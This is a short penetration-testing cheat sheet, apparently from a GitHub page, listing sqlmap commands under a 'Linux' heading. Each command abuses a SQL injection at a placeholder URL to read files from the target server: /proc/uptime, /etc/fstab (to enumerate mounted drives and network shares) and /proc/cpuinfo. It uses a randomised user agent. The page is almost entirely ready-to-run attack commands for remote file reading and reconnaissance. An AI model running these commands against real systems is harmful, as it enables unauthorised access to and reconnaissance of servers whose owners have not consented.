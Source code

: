 # Linux

- Check uptime

```
$ sqlmap -u <URL> --random-agent --file-read="/proc/uptime"
```

- Enumerate mounted drives and network shares.

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/fstab"
```

- Enumerate CPU cores

```
$ sqlmap -u <URL> --random-agent --file-read="/proc/cpuinfo"
```